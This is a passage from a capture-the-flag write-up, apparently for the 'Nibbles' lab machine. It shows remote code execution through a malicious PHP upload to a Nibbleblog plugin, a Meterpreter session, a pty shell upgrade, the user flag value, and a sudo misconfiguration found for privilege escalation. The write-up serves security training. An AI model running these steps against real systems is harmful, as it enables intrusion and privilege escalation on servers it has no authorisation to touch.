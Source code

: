 The module uploaded a malicious PHP file via the `my_image` plugin, achieving remote code execution (RCE) and spawning a Meterpreter session as the `nibbler` user:

```bash
(Meterpreter 1)(/var/www/html/nibbleblog/content/private/plugins/my_image) > getuid
Server username: nibbler
```

### Shell Upgrade

Upgraded the Meterpreter session to an interactive shell:

```bash
shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This provided a stable TTY for further enumeration.

---

## Local Enumeration & User Flag

As the `nibbler` user, enumerated the home directory:

```bash
ls /home/nibbler
```

Found:

- **user.txt**: Contained the user flag: `79c03865431abf47b90ef24b9695e148`.
- **personal.zip**: A zip file in `/home/nibbler`.

Extracted `personal.zip`:

```bash
unzip /home/nibbler/personal.zip -d /tmp/personal
```

The zip contained a script at `/home/nibbler/personal/stuff/monitor.sh`, which appeared to be a monitoring script but lacked immediate exploitable content.

---

## Privilege Escalation

Checked for sudo permissions:

```bash
sudo -l
```

**Output:**

```
User nibbler may run the following commands on nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
